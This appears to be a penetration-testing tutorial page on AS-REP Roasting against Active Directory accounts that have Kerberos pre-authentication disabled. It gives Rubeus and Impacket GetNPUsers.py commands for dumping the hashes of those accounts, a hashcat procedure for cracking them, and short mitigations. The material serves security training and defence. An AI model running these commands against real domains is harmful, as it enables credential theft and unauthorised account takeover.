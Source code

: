 # AS-REP Roasting with Rubeus/GetNPUsers.py

### **Introduction**

Very similar to Kerberoasting, AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled. Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.

We'll continue using Rubeus same as we have with kerberoasting and harvesting since Rubeus has a very simple and easy to understand command to AS-REP roast and attack users with Kerberos pre-authentication disabled. After dumping the hash from Rubeus we'll use hashcat in order to crack the krbasrep5 hash.

There are other tools out as well for AS-REP Roasting such as kekeo and Impacket's GetNPUsers.py. Rubeus is easier to use because it automatically finds AS-REP Roastable users whereas with GetNPUsers you have to enumerate the users beforehand and know which users may be AS-REP Roastable.

***

### **AS-REP Roasting Overview**

During pre-authentication, the users hash will be used to encrypt a timestamp that the domain controller will attempt to decrypt to validate that the right hash is being used and is not replaying a previous request. After validating the timestamp the KDC will then issue a TGT for the user. If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who they say that they are.

***

### **Dumping KRBASREP5 Hashes with Rubeus**

1. `cd Downloads` - navigate to the directory Rubeus is in
2. `Rubeus.exe asreproast` - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

<figure><img src="../../../../../../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

### **Dumping KRBASREP5 Hashes with Impacket's GetNPUsers.py**

Impacket has a tool called "GetNPUsers.py" (located in impacket/examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

#### Check ASREPRoast for all domain users (credentials required)

```
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

#### Check ASREPRoast for a list of users (no credentials required)

```
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

***

### **Crack those Hashes with hashcat**

1. Transfer the hash from the target machine over to your attacker machine and put the hash into a txt file
2. Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....
3. `hashcat -m 18200 hash.txt Pass.txt` - crack those hashes! Rubeus AS-REP Roasting uses hashcat mode 18200

<figure><img src="../../../../../../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

### **AS-REP Roasting Mitigations**

* Have a strong password policy. With a strong password, the hashes will take longer to crack making this attack less effective
* Don't turn off Kerberos Pre-Authentication unless it's necessary there's almost no other way to completely mitigate this attack other than keeping Pre-Authentication on.

***
